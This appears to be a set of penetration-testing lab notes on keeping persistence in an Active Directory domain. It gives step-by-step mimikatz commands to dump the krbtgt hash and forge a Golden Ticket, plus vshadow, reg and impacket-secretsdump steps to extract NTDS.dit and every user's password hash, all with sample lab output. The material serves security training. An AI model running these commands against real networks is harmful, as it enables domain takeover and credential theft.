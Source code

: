 # Active Directory Persistence

Techniques aimed at maintaining an attacker's foothold on the target network.
Could be employed during penetration testing or red-teaming exercises whose rules of engagement mandate we retain long-term access to the compromised environment.

- <https://attack.mitre.org/tactics/TA0003/>























## Golden Ticket
If we can get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.

Although this technique's name resembles the Silver Ticket, Golden Tickets provide a more powerful attack vector.

While Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets give us permission to access the entire domain's resources.


The best advantage is that the krbtgt account password is not automatically changed. This password is only changed when the DOMAIN FUNCTIONAL LEVEL is upgraded from a pre-2008 Windows server, but not from a newer version. Because of this, it is not uncommon to find very old krbtgt password hashes.
(The Domain Functional Level dictates the capabilities of the domain and determines which Windows operating systems can be run on the domain controller. Higher functional levels enable additional features, functionality, and security mitigations. See: <https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels>)




Example:

1.
To test this persistence technique, we will first attempt to laterally move from the Windows 11 `CLIENT74` workstation to the domain controller via `PsExec` as the `jen` user by spawning a traditional command shell with the cmd command. This should fail because we do not have the proper permissions.
```
PsExec64.exe \\DC1 cmd.exe
# Output: Access is denied.
```


2.
Requisite: have access to a Domain Admin's group account or to have compromised the domain controller itself.

To simulate this, we'll log in to the domain controller with remote desktop using the jeffadmin account. Then we will run:
```
privilege::debug
lsadump::lsa /patch

# Output:
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

We obtained the NTLM hash of the krbtgt account, along with the domain SID, we can now forge and inject our golden ticket.


Now on the normal user account (jen):

Before we generate the golden ticket let's launch mimikatz and delete any existing Kerberos tickets
```
kerberos::purge
```

Then create the golden ticket:
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

With the golden ticket injected into memory, let's use `PsExec` to launch a new command prompt with `misc::cmd`.

```
misc::cmd

C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe
C:\Tools\SysinternalsSuite>whoami
# Output: corp\jen
C:\Tools\SysinternalsSuite>whoami /groups
...
CORP\Domain Admins
...
```
We verified that our user jen is now part of the Domain Admin group.

Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication.

If we were to connect `PsExec` to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked.


































## Shadow Copies

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.

- <https://en.wikipedia.org/wiki/Shadow_Copy>


To manage volume shadow copies, the Microsoft signed binary `vshadow.exe` is offered as part of the Windows SDK.

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database `NTDS.dit` database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.



Connected as domain admin user to the DC1 domain controller, launch an elevated command prompt and run the vshadow utility with `-nw` options to disable writers, which speeds up backup creation and include the `-p` option to store the copy on disk.

```
vshadow.exe -nw -p  C:

# Output:
...
- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
...
```

Once the snapshot has been taken successfully, we should take note of the shadow copy device name.
Then copy the whole AD Database from the shadow copy to the `C:` drive root folder by specifying the shadow copy device name and adding the full `ntds.dit` path.
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Finally, to correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the `reg` utility and the `save` argument.
```
reg.exe save hklm\system c:\system.bak
```


Once the two `.bak` files are moved to our Kali machine, we can continue extracting the credential materials with the `secretsdump` tool from the `impacket` suite. We'll supply the ntds database with the `-ntds` parameter and the system hive with the `-system` parameter. Then we will tell impact to parse the files locally by adding the LOCAL keyword.

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

# Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user. We can now try to crack them or use as-is in pass-the-hash attacks!


NOTE: while these methods might work fine, they leave an access trail and may require us to upload tools.

An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation. To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method. This is a less conspicuous persistence technique that we can misuse.













